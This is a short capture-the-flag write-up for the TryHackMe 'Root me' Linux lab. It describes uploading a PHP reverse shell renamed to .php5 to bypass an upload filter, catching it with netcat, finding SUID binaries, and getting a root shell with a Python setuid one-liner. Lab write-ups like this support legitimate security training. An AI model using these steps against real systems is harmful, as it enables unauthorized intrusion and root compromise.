  # Root me 🧭
Names | Details 
--------|-----
Source | tryhackme
Level     | easy
Os | linux

**Notes :**




## Gaining Access 😉

- PHP reverse shell uploaded as .php5 extesion
- netcat to listen on port



## Maintaining Access 🥷
- SUID Permission
	- /usr/bin/python


## Important commands 🔥
- find / -perm /4000
	```python
	/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
	```

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- it's possible to bypass .php Extesions filter by renaming it as .php5
- used python script for privilege escalation 


--------------------------------
**By Nibras Muhammed** 🤓🖥️






